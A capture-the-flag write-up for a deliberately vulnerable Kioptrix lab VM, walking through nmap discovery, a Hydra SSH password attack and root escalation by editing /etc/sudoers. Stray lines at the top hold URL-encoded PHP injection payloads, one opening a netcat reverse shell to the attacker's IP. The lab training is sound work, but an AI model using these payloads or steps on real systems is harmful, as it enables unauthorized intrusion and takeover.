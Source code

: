 https://secuniaresearch.flexerasoftware.com//secunia_research/2011-21/
%27%29%3B%24%7Bprint%28%27test%27%29%7D%3B%23 -> ');${print('test')};#
%27%29%3B%24%7Bsystem%28%27nc%20-e%20%2fbin%2fsh%2010.0.2.5%204444%27%29%7D%3B%23%22 -> ');${system('nc -e /bin/sh 10.0.2.5 4444')};#"

# Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `nmap -sn 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `nmap` command specify that an host discovery scan that skips the port scan phase should be used, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/pingscan.png "nmap -sn 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`nmap` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.7`, because nmap identifies them as VirtualBox virtual machines. Knowing that VirtualBox uses `10.0.2.3` as a nameserver, we can tell that `10.0.2.7` is the target.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.7` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.7`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.7 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.7` in Firefox gives us a webpage for Ligoat Security, with a few tabs for "Home", "Blog", and "Login.

![](images/front.png "http://10.0.2.7 loaded in Firefox")

Going to the "Blog" section shows two blog entries, one of which caught my eye. The "New Lead Programmer" entry gives us the username for their new lead programmer, "loneferret", which is something that we can leverage to gain access to their systems.

![](images/blog.png "Blog entries for Ligoat")

We can use THC-Hydra to try a dictionary attack on the "loneferret" user through SSH. To properly use a dictionary attack, we need a file with possible passwords that Hydra can try to log in with. I used [this file](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt "wordlist I used with THC-Hydra"), which includes 10,000 common passwords. Running the command `hydra -t 4 -l loneferret -P /usr/share/wordlists/top-10000.txt 10.0.2.7 ssh` will start Hydra with four tasks, meaning that there will be a maximum of 4 tries going on at once, using the login "loneferret" and wordlist that I downloaded, targeting the IP address `10.0.2.7` through the SSH service. As Hydra needs to try many passwords, it's typical that it will take a while to run.

![](images/hydra.png "result of THC-Hydra's dictionary attack")

Once Hydra finds a valid password, it will stop running and print out the result. In this case, it looks like the password for the "loneferret" user is "starwars". Now we can log in to the victim through the command `ssh loneferret@10.0.2.7` and entering the password when prompted.

![](images/login.png "logging in to the loneferret account")

## Elevating Access

Once we're logged in, we can use the `ls` command to list all the contents of the current directory. We see that there's a file called "CompanyPolicy.README", which we can read with `cat CompanyPolicy.README`. In it, we find out that the "loneferret" account has access to the "sudo ht" command. If they're able to use `sudo` on this command, let's see if they can use it on any other one. Trying to execute `sudo su root` or `sudo /bin/bash` ends up with an error that the user is not allowed to execute the given command as root, showing that they can only execute `ht` as root.

![](images/sudo.png "Trying out sudo commands")

Let's see what `ht` is. In my case, trying to run it with `sudo ht` gave me an error that stated "Error opening terminal: xterm-256color." I fixed this issue by using the command `export TERM=xterm`, which changes the text window's capabilities to support 8 colors, instead of 256. With the error fixed and the command running, we can see that `ht` is used as a text editor.

![](images/ht.png "Opening ht")

Since we run `ht` with `sudo`, this means that `ht` is running as the root user, allowing us to modify privileged system files. One file of interest to us would be /etc/sudoers, as this is the file where limits on the `sudo` command would be kept, and now, we can use `sudo ht -t /etc/sudoers` to open and edit the file.

![](images/sudoers.png "Opening /etc/sudoers in ht")

We can see that loneferret is only allowed to use the `sudo` command with /usr/local/bin/ht, and that they're locked out of using /usr/bin/su. We can modify this so that we can use /bin/bash with `sudo` by adding ", /bin/bash" to the loneferret line, and so that we can use the `su` command by deleting the exclamation mark in front of it.

![](images/bash.png "/etc/sudoers after the change")

Saving the changes with `F2` and quitting with `CTRL+C`, we can now try to use the `sudo /bin/bash` command to get a shell as root again, and this time, it works!

![](images/root.png "Getting a root shell")
